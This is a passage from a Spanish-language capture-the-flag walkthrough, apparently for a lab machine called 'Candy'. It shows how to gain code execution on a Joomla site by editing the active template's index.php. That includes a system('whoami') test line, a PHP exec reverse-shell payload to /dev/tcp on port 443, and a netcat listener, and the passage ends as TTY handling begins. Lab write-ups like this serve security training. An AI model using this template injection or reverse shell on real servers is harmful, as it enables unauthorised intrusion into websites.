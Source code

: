 Navegamos a `System -> Site Templates` y seleccionamos la plantilla activa (por ejemplo, `Cassiopeia`). Editamos el archivo `index.php` de la plantilla. Este archivo se ejecuta cada vez que se carga una página del sitio web.

Para verificar la ejecución de comandos, podemos añadir una línea simple como `system('whoami');`.

```php
<?php
// ... código existente ...
system('whoami'); // Añadimos esta línea para probar la ejecución de comandos
// ... más código existente ...
?>
```
![[Candy_whoami.png]]
Al guardar y recargar la página principal del sitio, deberíamos ver el resultado del comando `whoami` (por ejemplo, `www-data`), confirmando que podemos ejecutar comandos en el servidor web.

### 4.2. Ejecución de Reverse Shell

Una vez confirmada la ejecución de comandos, reemplazamos el comando `system('whoami');` con un payload de reverse shell. Este payload hará que el servidor se conecte a nuestra máquina atacante, dándonos una shell interactiva.

**Payload de Reverse Shell (PHP):**

```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP_DE_TU_KALI>/443 0>&1'");
```

*   `exec()`: Función de PHP para ejecutar comandos externos.
*   `/bin/bash -c '...'`: Ejecuta un comando bash.
*   `bash -i`: Inicia una shell interactiva.
*   `>& /dev/tcp/<IP_DE_TU_KALI>/443`: Redirige la entrada y salida estándar a una conexión TCP a la IP de nuestra máquina atacante en el puerto 443.

**En la Máquina Atacante:**

Antes de recargar la página, configuramos un `netcat` listener en nuestra máquina atacante para recibir la conexión entrante en el puerto 443.

```bash
nc -lvnp 443
```

Después de configurar el listener, recargamos la página web de Joomla! en el navegador. Esto ejecutará el código PHP inyectado y nos dará una shell inversa en nuestra máquina atacante.

```bash
www-data@<ID_DEL_CONTENEDOR>:/var/www/html/joomla$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Confirmamos que estamos como el usuario `www-data`.

### 4.3. Tratamiento de la TTY (Opcional pero Recomendado)

Para una mejor interacción con la shell (autocompletado, historial, etc.), es recomendable convertirla en una TTY (terminal) interactiva. Esto se logra con los siguientes comandos:
